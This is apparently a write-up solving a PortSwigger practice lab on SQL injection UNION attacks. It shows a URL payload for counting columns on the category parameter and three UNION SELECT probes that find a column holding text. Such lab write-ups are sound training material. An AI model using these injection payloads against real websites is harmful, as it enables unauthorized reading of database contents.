


# SQL injection UNION attack, finding a column containing text

**Lab Url**: [https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)



## Objective

The lab objective is to find a column containing text.

## Solution

We can use the below payload on the category parameter to determine the number of columns returned by the query.

```bash
/filter?category=Gifts'+union+select+null,null,null+--
```

After you determine the number of required columns, you can probe each column to test whether it can hold string data. You can submit a series of `UNION SELECT` payloads that place a string value into each column in turn. For example, if the query returns three columns, you would submit:

```bash
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```

After determining which column holds string data, perform a SQL injection `UNION` attack that returns an additional row containing the value provided in the lab.


